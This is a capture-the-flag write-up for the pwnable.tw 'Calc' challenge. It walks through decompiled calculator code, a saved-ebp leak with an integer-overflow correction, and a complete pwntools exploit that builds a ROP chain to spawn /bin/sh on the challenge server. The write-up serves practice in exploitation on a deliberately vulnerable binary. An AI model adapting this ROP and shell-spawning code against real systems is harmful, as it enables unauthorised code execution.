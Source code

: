 # Pwnable.tw - Calc
* Website : Pwnable.tw
* Challenge : Calc
* Writeup author : Redhung aka r3dhun9
>Contact :[Philip Chen (Facebook)](https://www.facebook.com/philip.chen.581)

## 0x00
**This challenge took me four days to solve it, and I think it is difficult although it is the third challenge in pwnable.tw !!** :cry: 

## 0x01

Let's use **IDA Pro** to decompile the binary first :
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
    ssignal(14, timeout);
    alarm(60);
    puts("=== Welcome to SECPROG calculator ===");
    fflush(stdout);
    calc();
    return puts("Merry Christmas!");
}
```
We'll see the program sets alarm to send a signal to itself, and then it calls **calc()**.

```c
unsigned int calc()
{
    int pool;
    int number[100];
    char expr;
    unsigned int canary;
    
    canary = __readgsdword(0x14u);
    while(1)
    {
        bzero(&expr, 0x400u);
        if(!get_expr((int)&expr, 1024))
            break;
        init_pool(&pool);
        if(parse_expr((int)&expr, &pool))
        {
            printf((const char *)&unk_80BF804, number[pool-1]);
            fflush(stdout);
        }
    }
    return __readgsdword(0x14u) ^ canary;
}
```
Let's analyze the function:

**Calc()** seems like a function which calculates the input and print it out.

**bzero()** is a function which works like **memset**.

**init_pool()** seems like a function which initiates the pool's number.

**get_expr()** seems like a function which filters the characters except for **+, -, *, /, %**.

**parse_expr()** contains **eval()**, and these two function are the points.

There is a lot of writeups describe the vulnerability, and I like [this writeup](https://drx.home.blog/2019/04/07/pwnable-tw-calc/) the most. :+1: 

The most difficult thing I encountered is **Leaking the saved ebp and calculating the offset.**

And we will get a negative number of saved ebp, I used **gdb** to find out the value on the stack and calculate their difference.

I got the **0x100000000**, that means our saved ebp must plus **0x100000000** everytime to get the true value.

But when I sent the bin_sh_address to the num[366], the integer will overflow, finally leading to failure.

My solution to this point comes below:

```python
true_ebp = leak_ebp + 0x100000000
bin_sh_address = true_ebp (+|-) offset - 0x100000000
```

Please see more information about how this works:[reference(difference between unsigned int & int)](https://segmentfault.com/q/1010000009639067)

## 0x02
Exploit:

```python
from pwn import *

"""
+360 => ebp
+361 => pop_eax_ret
+362 => 0xb
+363 => pop_edx_ecx_ebx_ret
+364 => 0
+365 => 0
+366 => address of /bin//sh
+367 => int 0x80
+368 => //sh 0x68732f2f
+369 => /bin 0x6e69622f
"""

r = remote('chall.pwnable.tw',10100)

pop_eax_ret = 0x0805c34b

pop_edx_ecx_ebx_ret = 0x080701d0

syscall = 0x08049a21

str_bin = 0x6e69622f

str_sh = 0x0068732f

def leak_ebp():
    r.recv()
    r.sendline('+360')
    ebp = int(r.recvline())
    ebp = ebp + 0x100000000
    bin_sh_addr = ebp - 0x100000000
    return bin_sh_addr

def set_rop():
    bin_sh_addr = leak_ebp()
    for i in range(361,370):
        r.sendline('+{}'.format(i))
        diff = int(r.recvline())
        print(diff)
        #set zero
        if diff < 0 :                              
            r.sendline('+{}+{}'.format(i,str(diff).strip('-')))
            r.recvline()
        elif diff > 0 :
            r.sendline('+{}-{}'.format(i,str(diff)))
            r.recvline()
        #set parameters
        if i == 361 :
            r.sendline('+361+'+str(int(pop_eax_ret)))
            r.recvline()
        elif i == 362 :
            r.sendline('+362+11')
            r.recvline()
        elif i == 363 :
            r.sendline('+363+'+str(int(pop_edx_ecx_ebx_ret)))
            r.recvline()
        elif i == 366 :
            r.sendline('+366'+str(bin_sh_addr))
            r.recvline()
        elif i == 367 :
            r.sendline('+367+'+str(int(syscall)))
            r.recvline()
        elif i == 368 :
            r.sendline('+368+'+str(int(str_bin)))
            r.recvline()
        elif i == 369 :
            r.sendline('+369+'+str(int(str_sh)))
            r.recvline()

def main():
    set_rop()
    r.interactive()

if __name__ == "__main__":
    main()
```
